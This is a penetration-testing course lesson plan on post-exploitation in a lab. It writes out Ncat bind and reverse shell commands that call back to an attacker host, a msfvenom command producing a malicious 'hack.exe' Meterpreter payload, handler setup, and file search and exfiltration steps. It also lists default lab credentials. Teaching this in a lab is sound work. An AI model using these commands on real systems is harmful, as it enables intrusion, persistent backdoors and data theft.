## 17.2 Lesson Plan: Post Exploitation with Meterpreter 

### Overview

In today's class we will look at the post-exploitation phase of pen testing. We will establish backdoors by creating bind and reverse shells using Ncat. Then, we will continue working in our Metasploit framework to craft custom payloads and establish Meterpreter sessions. 

### Class Objectives

By the end of class, students will be able to:

- Establish bind and reverse shells using Ncat.
- Set Meterpreter payloads on a target.
- Use Meterpreter shells to exfiltrate data from the target machine.

### Lab Environment

<details><summary>Lab Details</summary>
<br>

In this unit, you will be using the Pentesting lab environment located in Windows Azure Lab Services. RDP into the **Windows RDP host machine** using the following credentials:

  - Username: `azadmin`
  - Password: `p4ssw0rd*`

Open Hyper-V Manager to access the nested machines with the following credentials:

**Kali machine:**
  - Username: `root`
  - Password: `toor`

**Metasploitable machine:**
  - Username: `msfadmin`
  - Password: `msfadmin`

**ShellShock:**

  - Username: `vagrant`
  - Password: `vagrant`

**Heartbleed**:

  - Username: `vagrant`
  - Password: `vagrant`

**DVWA10**:

  - Username: `IEuser`
  - Password: `Passw0rd!`

In today's class, we will use the Kali machine, the Metasploitable machine, and the DVWA10 machine.

**Note:** Since the IP addresses are dynamic, the IP addresses used in the demos and activities should be treated as examples. The actual IP addresses will need to be determined before starting the exercises.

</details>  

#### Slideshow 
The  slides for this lesson are available on Google Drive here: [17.2 Slides](https://docs.google.com/presentation/d/1SvdSWxlJeBNFeukP0p_UrvPkkK7sPc1DoEu4zftzEdo/edit)

- To add slides to the student-facing repository, download the slides as a PDF by navigating to File > "Download as" and choose "PDF document." Then, add the PDF file to your class repository along with other necessary files.

- Note: Editing access is not available for this document. If you or your students wish to modify the slides, please create a copy by navigating to File > "Make a copy...".

#### Time Tracker

The time tracker for this lesson is available on Google Drive here: [17.2 Time Tracker](https://docs.google.com/spreadsheets/d/1ESS0Pzrw6-LjXQ9I4_UsaL1rsocj1uCGFbfoVdH4XLw/edit#gid=1145703143)

#### Student Guide

Make sure to send out a student-facing version of the lesson plan: [17.2 Student Guide](StudentGuide.md)

____


### 01. Instructor Do: Welcome and Overview of Command and Control (0:10)

Remind students that for the past two units, we have been exploring the offensive security practice known as pen testing. 

Remind students of the five pen testing stages: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

- We've learned many manual tools and established a fundamental understanding of how reconnaissance, scanning, and exploitations work. 

- We've also introduced more automated tools with the Metasploit framework, and used Metasploit scripts to target multiple VMs. 

Today we will continue to exploit vulnerabilities and begin the process of **Post Exploitation**. In this phase, backdoors are created and valuable data is extracted. 

- Explain that after successful exploitation, in which a session is established, Metasploit acts as a **command and control (C2)** server. This means it is able to pass commands to exploited victim computers.

- C2 is a general term for a non-standardized framework that controls sessions on infected hosts.

- C2 is a vital technique for the Post  Exploitation phase of pen testing, when attackers try to perform tasks such as data exfiltration (moving data from the victim computer to the host).

While there are a variety of C2 frameworks, in today’s class we will focus on the Meterpreter module of the Metasploit framework.

Pause to answer any questions before proceeding.

### 02. Instructor Do: Payloads and Shells (0:20)

Ask the class if anyone can explain what a payload is, in the context of an exploit. 

- Explain that a payload is the shell code that runs when an exploit successfully compromises a system.

- For example, in previous Shellshock demonstrations, we saw payloads such as `payload/firefox/gather/cookies`.

Explain that in that example, the payload was automatically determined for us. However, there may be times when you require a different or customized payload. For example:

- Payloads will need to correspond to a specific OS and architecture. 

   - A 64-bit payload is very different from a 32-bit payload.

- Some exploits can only handle a certain size payload. If a payload is too big, it will fail.

  - To address this size issue, we can use either **staged** or **stageless** payloads.

    - Staged payloads come in multiple parts in order to minimize their overall initial payload size. Upon exploitation, the payload calls the rest of the payload down from the "staged" location.

    - Stageless payloads are complete payloads, and are significantly larger than staged payloads.

- Depending on what we want to do once we exploit our target machine, certain payloads allow for more functionality than others.

  - For example,  Meterpreter payloads, which are used by Metasploit exploits, provide a robust offering of tools and commands that we will explore later today. 

#### Shells

Explain that if the payload is successful, it will establish a shell. This is the connection between the target machine and attacking machine. 

- Two notable types of shells are: 

   - **Bind shells** use a payload that opens up a port on a victim host and listen on that port for an incoming connection from the attacker host. This allows the attacker to connect to the victim. 

   - **Reverse shells** use a payload that automatically reaches out to the attacker host to establish a session.

- In other words, in a bind shell the attacking computer connects to the victim computer. In a reverse shell, the victim computer connects to the attacking computer.

- When shells are used maliciously like this, they are also referred to as **backdoors**. 

#### Bind and Reverse Shells Demonstration Setup

Explain that in the upcoming demonstration, we will manually establish bind and reverse shells using **Ncat**. 

- Remind students that Ncat is a command-line tool that allows us to read, write, redirect, and encrypt data across networks. It is a common security tool and is considered a versatile and vital tool for security professionals.

In this scenario, we have already infiltrated the machine. Therefore, we are in the post-exploitation stage of the penetration test and  will use Ncat to establish a backdoor. 

We will use the following lab environment: 

- Kali Linux machine will be our attack host. 

- We will establish backdoors on our Metasploitable VM, a vulnerable web server.

Ask if there are any questions before proceeding. 

#### Bind Shell Demonstration

Explain that a bind shell is configured on the target host. The host binds to a specific port that's listening for incoming connections from the attacker.

1. Begin by starting a listener on the victim's Metasploitable machine. Remind students that this step assumes that we have already exploited the target and have access to it.

   - On Metasploitable, run the following command to create a listener on port `4444`.   

      -  `nc -lnvp 4444 -e /bin/bash`

         - `-l`: Tells Ncat to listen for incoming connection.
         - `-n`: Indicates that we are listening for numeric IP addresses.
         - `-v`: Means verbose, which will print more information about the connection.
         - `-p <port number>`: Specifies which port to listen on. 
         - `-e`: Executes a bash shell, specifically, `/bin/bash`.

   - Once the Kali machine connects, you will see a `connect to...(UNKNOWN)...` message.

        

2. Next, we'll establish a connection to the listener on the Metasploitable VM.

   - On the Kali machine, run the command to establish a connection to port `4444` using the local IP address of Kali Linux. 

     - `nc 192.168.0.10 4444`


   - This command should successfully connect us on the Kali Machine, giving us remote control of the Metasploitable machine. 

        - Next, demonstrate code execution by typing `ls`, `whoami`, and `pwd` to illustrate that the shell is active on the target Metasploitable machine.

      

We have successfully established a connection between the attacker and target machines!

See if there are any questions before moving onto a reverse shell. 

#### Reverse Shell Demonstration

A reverse shell is initiated from the target host back to the attacker, who will have a listener. 

We would use a reverse shell  if we sent the victim a malicious script that tricked them into opening the payload for us, or after or during our initial breach into their system. We could also set up a reverse shell to run as a cron job. 

1. Start a listener on the attacker's Kali machine.

   - On Kali Linux, run the following command:

      - `nc -lvnp 4444`


2. On the Metasploitable VM, run the following command:

   - `nc 192.168.0.8 4444 -e /bin/bash`

     -  `nc`: Starts the listener on port `4444`.
     - `-e /bin/bash`: Provides a shell to the connecting machine, in this case the attacking Kali machine.

   

3. Back on the Kali machine, you should see a successful connection.

   - Demonstrate code execution by running the following on the Kali machine:

      - `whoami`
      - `ifconfig`

   - This demonstrates that the shell on the target is active and responding.

      

   - This  means that you have successfully established a connection between the attacker and target machines.


### 03. Student Do: Bind and Reverse Shells and Ncat (0:20)

Explain the following:

- In this activity you will be taking on the role of a pentester during the post-exploitation phase of a penetration test.

- At this point, you've already breached the victim's machine. Since you want to return to it at some point, you need to create a backdoor onto the machine.

- You are tasked with using Ncat to create a bind and a reverse shell.

Send students the following file:

- [Activity File: Bind and Reverse Shell and Ncat](Activities/03_Bind_and_Reverse/Unsolved/README.md)


### 04. Instructor Review: Bind and Reverse Shells and Ncat Activity (0:10)

The goal of this activity for students to manually use Ncat to establish backdoors on remote hosts. 


Send students the following solution file and use it to guide the review: 

- [Solution File: Bind and Reverse Shell and Ncat](Activities/03_Bind_and_Reverse/Solved/README.md)


### 05. Instructor Do: First Steps with Meterpreter (0:15)

Remind students that Metasploit is a convenient tool suite that automates entire steps of engagements and enables complex and advanced techniques. 

- For example, Metasploit can exploit a target _and_ open a session onto it in a single step.

- In fact, when students exploited a vulnerability with Metasploit and MSFconsole in the previous class, they also opened a Meterpreter session. However, we did not interact with it. 

- Additionally, once this session is open, it can carry out advanced features that are either unavailable or burdensome to carry out in normal shells. 

Explain that we set up shells in the Metasploit framework with Meterpreter.

- Meterpreter, short for the Meta-Interpreter, is a proprietary Metasploit payload that sets up reverse shells. 

- A Meterpreter shell provides access to Metasploit modules and other actions that would otherwise not be available when using the command shell alone.


#### Meterpreter Features

Using Meterpreter is similar to using a normal shell, but with its own built-in commands and pen testing features. Think of it like an extendable command shell that provides the same interface across platforms.

With Metasploit, we can use Meterpreter to: 

- Upload and download files to and from a target. 
- Set up port forwarding through the target. 
- Switch between Meterpreter shells. 
- Run Metasploit modules on remote hosts. 


In addition to these capabilities, Meterpreter is difficult to detect and leaves minimal traces on victim machines or the network. 

  - It runs entirely in memory, meaning it does not create files on the target.

  - It does not start any new processes on the victim. Instead, it "injects" itself into a program that's already running. Therefore, users see that Meterpreter has started by looking at running processes. 
      - This is not the case with an SSH session, which launches a new shell process.

  - Meterpreter encrypts all communication to and from the victim machine.

Explain that opening a Meterpreter session on a target host consists of four main steps:

1. Exploiting the target.

2. Uploading a Meterpreter payload on the target.

3. Starting a TCP listener.

4. Executing the Meterpreter payload.

Let students know that these four steps are required to set up and run an exploit.

#### Meterpreter Basics

The easiest way to open a Meterpreter shell is to select an exploit and set a Meterpreter payload. 
  - A common payload is `windows/meterpreter/reverse_tcp`.

  - **Note:** You can have multiple Meterpreter sessions open on multiple machines.

Cover the following commands needed to connect to a Meterpreter session:

- `sessions`: Lists all open Meterpreter sessions.

- `sessions -i <Session ID>`: Connects to a designated session.

- `sessions -i 1`: Brings our session to the foreground, meaning any command we run on our host machine will be run on the Meterpreter shell on the target. 

Explain to students that once we've connected to a Meterpreter session, we can run many special commands to get information on the target. Emphasize the following commands:

  - `?`: Prints Meterpreter's help page, which lists all possible commands.

  - `getuid`: Prints user ID.

  - `getwd`: Prints current working directory.

  - `ifconfig`: Prints the victim's network information.

  - `sysinfo`: Gathers system information (OS, architecture, kernel version). 

  - `upload`: Uploads a file to the target.

  - `download`: Downloads a file from the target.

  - `search`: Searches for resources, similar to the `find` command in Linux.

  - `run win_privs`: Provides more detailed Windows privilege information.

  - `run win_enum`: Runs a comprehensive suite of Windows enumerations and stores the results on the attacking machine.

Let students know that there are many more Meterpreter commands, but the above commands will help them complete the next activity.

Take a moment to address remaining questions before proceeding.


### 06. Student Do: Meterpreter Basics (0:15)

Explain the following to students:

- While we do not need to know every module and command that Meterpreter offers, it is important to become familiar with its key elements and common commands.

- In this activity, answer the following questions as if you were speaking to a non-technical audience, and be prepared to share with the class.  


Send students the following file:

- [Activity File: Meterpreter Basics](Activities/06_Meterpreter_Basics/Unsolved/README.md)


### 07. Instructor Review: Meterpreter Basics Activity (0:05)

This activity had students identify and research specific commands that they will use throughout the unit. 

- Remind students to reference these answers when they run exploits with Meterpreter after the break.

Use the following solution file to guide your review:

- [Solution Guide: Meterpreter Basics](Activities/06_Meterpreter_Basics/Solved/README.md)


### 08. Break (0:15)


### 09. Instructor Do: Meterpreter Exploitation Demo (0:25)

In this section, we will simultaneously exploit vulnerabilities and create custom payloads that will establish Meterpreter sessions.

* Typically, attackers deliver payloads via phishing emails or other social engineering tactics. When an unsuspecting user clicks a link, a malicious file is downloaded onto their machine.

* For the following demonstration, we will switch over to the Windows 10 machine after we create the custom payload on our Kali machine. 

* We will assume that the executable was downloaded onto the Windows machine, which we should see in the Downloads folder.

In the following demonstration, we will complete the following steps: 

- Use our Kali machine to create a custom payload that we will use to exploit a vulnerable Windows host (DVW10).

- Create a Meterpreter shell on our Kali machine.

- Use the shell to remotely run commands once the payload is executed. 

  * Specifically, we will use commands to search for all JPG pictures in the vulnerable Windows host.

  * We will also gather system information, application information, and currently logged-on users.

Do not worry about the syntax of the specific payload or the tool that we used to create this payload, `msfvenom`. We will cover custom payloads in the next class.

Pause to see if students have any questions before getting started.

#### Meterpreter Demonstration

1. First, we'll make a malicious custom payload in Kali Linux. 

  Run the following command and reiterate that we will be covering the syntax of custom payloads in the next class: 

   - `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.8 lport=4444 -f exe > hack.exe`

      - This command will create a malicious `hack.exe` file. 


  After the command is run, run `ls` to confirm that the malicious `hack.exe` file has been successfully created.

   


2. Launch the DVW10 VM and confirm that the malware file is on the machine. 

   - Navigate to your Downloads folder and verify that `hack.exe` is inside. 

   - Remind students that a major challenge is actually getting that malicious EXE file onto a victim's target machine. Typically, this is done via a phishing email or other social engineering tactic.

      For this demo, we will assume that this step has already taken place.

    - Don't click the file yet. 

3. Now we're going to use the Metasploit console on the Kali Linux machine to set up a listener. This listener will establish a connection between the two machines once the Windows user clicks the malicious payload.

    - Launch the Metasploit framework: 

      - Run `msfconsole`

    - Select an exploit module:  

      - Run `use exploit/multi/handler` 

         - This module is a TCP handler popular among security practitioners.

       - Remind students that the exploit module executes a sequence of commands to target a specific vulnerability.

   - Next, indicate that we'll be using the following Windows Meterpreter payload: 
    
     - Run `set payload windows/meterpreter/reverse_tcp` 

     - This payload will open the Meterpreter console (`/meterpreter`) and communicate with the remote machine (`/reverse_tcp`).
   
     

  - Display the payload's options settings: 

      - Run `show options`

  - We need to adjust the following two options: 

    - `set LHOST 192.168.0.8` (insert our local host IP address) 

    - `set LPORT 4444`

     - We can technically use any open port, but for this example we will be using port `4444` since it was established in the payload in Step 1. 

   

  - Verify our settings have taken place:
      - Run `show options` again. 

      

  - Run the payload:

    - Run `exploit`.

    - Do not close your terminal.

5. Return to the DVW10 VM and click on the EXE file that the user already downloaded.

   - Remember that once we click this link, the Meterpreter session will be established.

6. Return to the Kali VM. Our Kali machine should now say `meterpreter` instead of `ms5`, indicating that our meterpreter session was established:

    ```
    meterpreter > getuid
    ```

Now let's run some commands to demonstrate the power of the Meterpreter shell. 

#### Meterpreter Commands and Sub-Modules

Explain that Meterpreter comes with a command called `search`.

  - Run the following command:

    - `search -h`

Explain that we can use the search function and its arguments to explore this machine further. For instance, we want to locate all the JPG images on the Windows server, so we will run:

   - `search -f *.jpg`

      - `-f`: Specifies file type, in this case, all `.jpg` files.


   - Explain that this will take a moment as the search looks through the Windows 10 machine.

     

   - The output should indicate that the search found 217 results.

Explain that `sysinfo`, which students may remember from the Windows unit, returns information about the Windows system. 

   -  Run `sysinfo`

   

Explain that the Meterpreter system also comes with its own sub-modules for further exploitation.

- We'll look at the `post` module for tools useful during the post-exploitation phase.

Explain that you can run `post` then press Tab twice on the keyboard for a list of the different post modules. 

There are several hundred, each with their own list of modules. We won't discuss them all, but we'll cover some of the more popular ones.

Let's take a look at the `post/windows/gather/` module.

- Run `run post/windows/gather/`

  - There are an additional 118 applications in this module that we can use use for post exploitation of the Windows machine.

Today, we'll use the `enum_applications` module to enumerate applications installed on the Windows machine and save the results to a text document on the attacker machine. 

- Run `run post/windows/gather/enum_applications`

  

- The output displays the applications that are installed on the Windows machine.

Explain that another useful applicaton is `enum_logged_on_users`, used to enumerate all currently logged-on users for the Windows machine.

- Run `run post/windows/gather/enum_logged_on_users`

   - Point out that in the **Current Logged Users** section is the `IEUser` user.

    

Run the `shell` command to create a Meterpreter system shell on the compromised remote host.

   - Run `shell`

   - A **system shell** contains the features that come standard with basic shell commands. 

      - Emphasize that logged-on users could be alerted to the presence of the shell and its child processes running on the target.

      - Point out that rather than downloading documents, we may only be able to copy and paste their contents. 

      

Pause to answer questions before proceeding.


### 10. Student Do: Meterpreter Shells (0:20)

Explain the following:

- In this activity, you will play the role of an independent penetration tester.

- You've been hired by Unhackable Inc. to perform a no view test against one of the company's servers to determine if the existing security controls are adequate.

- Your goal is to hack into Unhackable, Inc.'s web server and do the following: 
  - Search the remote filesystem for JPG files.
  - Search for the `password.txt` file and exfiltrate it to your local machine.

Send students the following file:

- [Activity File: Meterpreter Shells](Activities/10_Meterpreter_Shells/Unsolved/README.md)


### 11. Instructor Review: Meterpreter Shells Activity (0:10)

Remind students that the goal of this activity was to learn how to use Metasploit modules and payloads.


To complete the activity, students had to use the following commands:

- `search -f <filename>` to find files on a remote computer using Meterpreter.

- `download` to exfiltrate files from the remote host.

- `run post/windows/gather/enum_shares` to enumerate system shares on the remote host.

- `run post/windows/gather/checkvm` to check if the remote host was running inside of a virtual machine.

- `net users` to enumerate all configured users on the remote host.

Use the following solution file to guide your review:

- [Solution Guide:  Meterpreter Shells ](Activities/10_Meterpreter_Shells/Solved/README.md)


### 12. Wrap-Up (0:05)

Inform students that today we covered a large amount of technical information related to:

- Creating and maintaining backdoors.

- Using Meterpreter to send remote commands to victim's computers.

Review the five pen testing stages: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

Explain that next class, we will continue with Post Exploitation by creating custom payloads using msfvenom. 

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
